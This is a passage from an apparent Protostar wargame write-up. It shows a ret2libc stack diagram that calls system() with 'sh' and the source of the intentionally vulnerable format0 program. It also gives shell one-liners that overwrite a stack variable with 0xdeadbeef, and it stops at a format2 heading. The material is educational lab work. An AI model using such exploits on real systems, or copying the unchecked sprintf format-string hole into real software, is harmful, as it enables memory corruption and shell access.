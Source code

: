 ```
|  AAAA                     (Saved EBP original frame)
|  ret = 0x08048544   (Saved EIP original frame) <--- STACK POINTER
|  system() address = 0xb7ecffb0 
|  SAVED EIP = BBBB                (Anything)         
|  pointer to "sh\0" =0xb7fb821d    <--- Argument passed to system()
.
.
.
| stuff()
HIGH
```

###  writing in memory with format strings

####  `(opt/protostar/bin/format0)`

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

Exploit: 

Fill the buffer with `64` junk bytes and add `0xdeadbeef` to overwrite target

```bash
/opt/protostar/bin/format0 $(python -c "print '%64d' + '\xef\xbe\xad\xde'")
or
/opt/protostar/bin/format0 $(python -c "print 'A'*64 + '\xef\xbe\xad\xde'")
```

#### `(opt/protostar/bin/format2)`
